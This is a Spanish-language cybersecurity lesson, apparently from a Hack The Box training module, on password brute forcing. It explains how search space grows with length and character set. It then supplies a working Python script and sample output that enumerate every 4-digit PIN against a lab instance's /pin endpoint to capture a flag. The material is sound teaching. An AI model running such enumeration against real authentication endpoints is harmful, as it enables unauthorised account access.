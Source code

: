 # Brute Force Attacks

Para comprender realmente el desafío del brute forcing, es esencial entender las matemáticas subyacentes. La siguiente fórmula determina el número total de combinaciones posibles para una contraseña:

```r
Possible Combinations = Character Set Size^Password Length
```

Por ejemplo, una contraseña de 6 caracteres que usa solo letras minúsculas (tamaño del conjunto de caracteres de 26) tiene 26^6 (aproximadamente 300 millones) de combinaciones posibles. En contraste, una contraseña de 8 caracteres con el mismo conjunto de caracteres tiene 26^8 (aproximadamente 200 mil millones) de combinaciones. Agregar letras mayúsculas, números y símbolos al conjunto de caracteres expande aún más el espacio de búsqueda exponencialmente.

Este crecimiento exponencial en el número de combinaciones resalta la importancia de la longitud y la complejidad de las contraseñas. Incluso un pequeño aumento en la longitud o la inclusión de tipos adicionales de caracteres puede aumentar drásticamente el tiempo y los recursos necesarios para un ataque de fuerza bruta exitoso.

Consideremos algunos escenarios para ilustrar el impacto de la longitud de la contraseña y el conjunto de caracteres en el espacio de búsqueda:

||Password Length|Character Set|Possible Combinations|
|---|---|---|---|
|`Short and Simple`|6|Lowercase letters (a-z)|26^6 = 308,915,776|
|`Longer but Still Simple`|8|Lowercase letters (a-z)|26^8 = 208,827,064,576|
|`Adding Complexity`|8|Lowercase and uppercase letters (a-z, A-Z)|52^8 = 53,459,728,531,456|
|`Maximum Complexity`|12|Lowercase and uppercase letters, numbers, and symbols|94^12 = 475,920,493,781,698,549,504|

Como puedes ver, incluso un pequeño aumento en la longitud de la contraseña o la inclusión de tipos adicionales de caracteres expande significativamente el espacio de búsqueda. Esto incrementa el número de combinaciones posibles que un atacante debe probar, haciendo que el brute forcing sea cada vez más desafiante y lento. Sin embargo, el tiempo que toma descifrar una contraseña no depende solo del tamaño del espacio de búsqueda, sino también del poder computacional disponible para el atacante.

Cuanto más potente sea el hardware del atacante (por ejemplo, la cantidad de GPUs, CPUs o recursos de computación en la nube que puedan utilizar), más intentos de contraseñas pueden realizar por segundo. Mientras que una contraseña compleja puede tardar años en ser descifrada con una sola máquina, un atacante sofisticado que use una red distribuida de recursos de computación de alto rendimiento podría reducir drásticamente ese tiempo.

![](https://academy.hackthebox.com/storage/modules/57/powern.png)

El gráfico anterior ilustra una relación exponencial entre la complejidad de la contraseña y el tiempo de descifrado. A medida que aumenta la longitud de la contraseña y se expande el conjunto de caracteres, el número total de combinaciones posibles crece exponencialmente. Esto incrementa significativamente el tiempo necesario para descifrar la contraseña, incluso con recursos computacionales potentes.

Comparando la computadora básica con la supercomputadora:

- Computadora básica (1 millón de contraseñas/segundo): Adecuada para descifrar contraseñas simples rápidamente, pero se vuelve imprácticamente lenta para contraseñas complejas. Por ejemplo, descifrar una contraseña de 8 caracteres que use letras y dígitos tomaría aproximadamente 6,92 años.
- Supercomputadora (1 billón de contraseñas/segundo): Reduce drásticamente los tiempos de descifrado para contraseñas más simples. Sin embargo, incluso con esta inmensa potencia, descifrar contraseñas altamente complejas puede tomar un tiempo impráctico. Por ejemplo, una contraseña de 12 caracteres con todos los caracteres ASCII aún tomaría unos 15,000 años en ser descifrada.

## Cracking the PIN

**Para seguir este ejemplo, inicia el sistema objetivo desde la sección de preguntas al final de la página.**

La aplicación de instancia genera un PIN aleatorio de 4 dígitos y expone un endpoint (`/pin`) que acepta un PIN como parámetro de consulta. Si el PIN proporcionado coincide con el generado, la aplicación responde con un mensaje de éxito y una flag. De lo contrario, devuelve un mensaje de error.

Usaremos este simple script de Python para realizar un brute-force en el endpoint `/pin` de la API. Copia y pega este script de Python a continuación como `pin-solver.py` en tu máquina. Solo necesitas modificar las variables IP y port para que coincidan con la información del sistema objetivo.

```r
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

El script de Python itera sistemáticamente todos los posibles PINs de 4 dígitos (0000 a 9999) y envía solicitudes GET al endpoint Flask con cada PIN. Verifica el código de estado de la respuesta y su contenido para identificar el PIN correcto y capturar la flag asociada.

### Brute Force Attacks

```r
python pin-solver.py

...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}
```

El resultado del script mostrará el progreso del ataque de fuerza bruta, mostrando cada PIN probado y su resultado correspondiente. El resultado final revelará el PIN correcto y la flag capturada, demostrando la finalización exitosa del ataque de fuerza bruta.